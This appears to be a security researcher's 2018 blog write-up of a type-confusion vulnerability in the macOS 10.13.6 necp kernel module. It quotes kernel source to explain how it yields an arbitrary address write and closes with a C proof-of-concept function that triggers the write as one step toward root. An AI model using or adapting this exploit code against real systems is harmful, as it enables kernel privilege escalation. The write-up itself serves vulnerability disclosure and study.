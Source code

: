 ```yaml
---
layout: default
author: juwei lin
date: 2018-11-13 15:16:00 +0800
---
```


# Description
necp module in BSD has a fatal type confusion problem that leads to multiple vulnerabilities. One of these cases is arbitrary-address-write.

Please be noticed that I already successfully use 3 vulnerabilities in BSD to `root` the latest public macOS `10.13.6`.  

The 3 cases are:  
* `(zdi-rcx15) necp arbitrary address write case.`
* (zdi-rcx16) necp arbitrary address free case.
* (zdi-rcx17) progargsx heap leak case. 

the zdi-rcx15 is the one I will describle in the following article.

# Environment
* OS: 		    macOS 10.13.6
* Module:	    BSD

# Analysis and Exploit
1. **Type Confusion**   
    Skip.

2. **Exploit: Arbitrary Address Write(AAW)**  
   Action 1 of necp_client_action is necp_client_add which calls `necp_client_update_observer_add`:
   ```
   static void
    necp_client_update_observer_add(struct necp_client *client)
    {
	    NECP_OBSERVER_LIST_LOCK_SHARED();

	    if (LIST_EMPTY(&necp_fd_observer_list)) {
		    // No observers, bail
		    NECP_OBSERVER_LIST_UNLOCK();
		    return;
	    }

	    struct necp_fd_data *observer_fd = NULL;
	    LIST_FOREACH(observer_fd, &necp_fd_observer_list, chain) {
		    necp_client_update_observer_add_internal(observer_fd, client);  ---（a）
	    }

	    NECP_OBSERVER_LIST_UNLOCK();
    }
   ```
   at location (a), if necp_fd_observer_list is not empty, necp_client_update_observer_add_internal is called on each node in necp_fd_observer_list:
    ```
    static void
    necp_client_update_observer_add_internal(struct necp_fd_data *observer_fd, struct necp_client *client)
    {
	    NECP_FD_LOCK(observer_fd);

	    if (observer_fd->update_count >= necp_observer_message_limit) {
		    NECP_FD_UNLOCK(observer_fd);
		    return;
	    }

	    struct necp_client_update *client_update = _MALLOC(sizeof(struct necp_client_update) + client->parameters_length,
													   M_NECP, M_WAITOK | M_ZERO);
	    if (client_update != NULL) {
		    client_update->update_length = sizeof(struct necp_client_observer_update) + client->parameters_length;
		    uuid_copy(client_update->client_id, client->client_id);
		    client_update->update.update_type = NECP_CLIENT_UPDATE_TYPE_PARAMETERS;
		    memcpy(client_update->update.tlv_buffer, client->parameters, client->parameters_length);
		    TAILQ_INSERT_TAIL(&observer_fd->update_list, client_update, chain); ---(b)
		    observer_fd->update_count++;

		    necp_fd_notify(observer_fd, true);
	    }

	    NECP_FD_UNLOCK(observer_fd);
    }
    ```
    At location (b), observer_fd->update_list will be tail-inserted with new allocated client_update. Remembered that update_list(0x10) is 0xf bytes controllable with first byte aways of value 0x00. And here tail-insert uses last 8 bytes which are totally controllable. So we get :  
    `0xXXXXXXXXXXXXXXXX = addr of client_update` 

    observer_fd is inserted into necp_fd_observer_list in function necp_open with (flag & 4) != 0 :
    ```
    int
    necp_open(struct proc *p, struct necp_open_args *uap, int *retval)
    {
        ...
        if (fd_data->flags & NECP_OPEN_FLAG_PUSH_OBSERVER) {
		    NECP_OBSERVER_LIST_LOCK_EXCLUSIVE();
		    LIST_INSERT_HEAD(&necp_fd_observer_list, fd_data, chain); ---(a)
		    OSIncrementAtomic(&necp_observer_fd_count);
		    NECP_OBSERVER_LIST_UNLOCK();

		    // Walk all existing clients and add them
		    NECP_CLIENT_TREE_LOCK_SHARED();
		    struct necp_client *existing_client = NULL;
		    RB_FOREACH(existing_client, _necp_client_global_tree, &necp_client_global_tree) {
			    NECP_CLIENT_LOCK(existing_client);
			    necp_client_update_observer_add_internal(fd_data, existing_client); ---(b)
			    necp_client_update_observer_update_internal(fd_data, existing_client);
			    NECP_CLIENT_UNLOCK(existing_client);
		    }
		    NECP_CLIENT_TREE_UNLOCK();
	    } else {
		    NECP_FD_LIST_LOCK_EXCLUSIVE();
		    LIST_INSERT_HEAD(&necp_fd_list, fd_data, chain);
		    OSIncrementAtomic(&necp_client_fd_count);
		    NECP_FD_LIST_UNLOCK();
	    }

        ...
    }
    ```
    at (a), necp_fd_observer_list is inserted with fd_data which points to necp_fd_data; please be noticed that at (b), fd_data->update_list may be reset to other values which means in necp_session_action, **session->proc_locked** may be True. We want the proc_locked value always be 0, so we need clear _necp_client_global_tree if we insert some node into it, or make sure the last node in _necp_client_global_tree has address ends with 0x00(the first byte).

# PoC of AAW

```
bool necp_write() {
    bool bret = false;
    int fd[250] = {0};  //max fd num shoule be around 256
    
    for (int i =0; i<250; i+=2) {
        //printf("i: %d\n",i);
        
        char yy[0xa0];
        fd[i] = necp_open(4);
        // a) this call may fail due to non-empty necp_client_global_tree, so we try 250.
        //    you can also call necp_client_remove to clear necp_client_global_tree thus we don't need try :-)
        int iret = necp_session_action(fd[i], 0, yy, 0, yy, 0xa0);
        //printf("i:%d necp_session_action iret:%d\n", i, iret);
        
        char client_id[0x10];
        uint64_t buffer[0x100];
        fd[i+1] = necp_open(2);
        //b) this call will insert new client into necp_client_global_tree, make a) failure except the new client address ends with 0x00
        necp_client_action(fd[i+1], 1, client_id, 0x10, (char*)buffer,0x100);
        
        if (iret != 0) {
            bret = true;
            break;
        }
        //sleep(1);
    }
    
    return bret;
}
```  


  [Back Home]({{site.url}}{{site.baseurl}})